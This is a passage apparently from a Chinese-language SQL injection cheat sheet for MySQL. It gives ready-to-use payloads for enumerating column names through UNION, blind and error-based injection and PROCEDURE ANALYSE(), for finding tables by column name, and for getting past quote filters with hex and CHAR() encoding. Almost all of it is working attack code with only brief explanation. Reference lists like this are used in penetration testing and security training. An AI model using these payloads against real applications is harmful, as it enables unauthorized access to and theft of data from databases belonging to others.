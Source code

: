 ### 列名

*   union 查询

    ```sql
    UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'
    ```
*   盲注

    ```sql
    AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
    ```
*   报错

    ```sql
    -- 在5.1.5版本中成功
    AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)
    -- MySQL 5.1版本修复了
    AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));
    ```
*   利用 `PROCEDURE ANALYSE()`

    ```sql
    -- 这个需要 web 展示页面有你所注入查询的一个字段
    -- 获得第一个段名
    SELECT username, permission FROM Users WHERE id = 1; 1 PROCEDURE ANALYSE()
    -- 获得第二个段名
    1 LIMIT 1,1 PROCEDURE ANALYSE()
    -- 获得第三个段名
    1 LIMIT 2,1 PROCEDURE ANALYSE()
    ```

### 根据列名查询所在的表

```sql
-- 查询字段名为 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name = 'username';
-- 查询字段名中包含 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';
```

### 绕过引号限制

```sql
-- hex 编码
SELECT * FROM Users WHERE username = 0x61646D696E
-- char() 函数
SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)
```
